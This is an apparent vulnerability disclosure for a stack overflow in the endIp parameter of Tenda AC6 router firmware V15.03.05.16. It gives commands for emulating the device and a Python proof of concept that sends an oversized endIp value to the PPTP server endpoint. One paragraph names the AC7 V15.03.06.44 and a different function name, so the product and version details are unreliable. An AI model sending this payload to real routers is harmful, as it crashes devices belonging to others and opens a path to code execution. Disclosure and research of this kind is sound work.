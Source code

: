 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/9dd2dd44-e173-4d40-87f2-8e167129aaae)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details
Tenda ac6 V15.03.05.16 Stack overflow is found in the endip parameter in the function SetPPTPServer. You can build payload for remote command execution

![image](https://github.com/user-attachments/assets/5120761f-09e8-4127-b095-29d28c04481a)


A buffer overflow vulnerability exists in the formSetPPTPServer function of tenda AC7 V15.03.06.44. The vulnerability could allow an attacker to exploit malicious input to overwrite other important data in memory, potentially causing the device to crash or execute arbitrary code.

### poc
```
import requests

url = "http://192.168.142.100/goform/SetPptpServerCfg"

data = {
    "endIp": "raining" * 1000,  
    "startIp": "192.168.142.100"
}

response = requests.post(url,  data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```
![image](https://github.com/user-attachments/assets/8c4fbe6e-c476-4fed-acb3-82cc6e37292b)

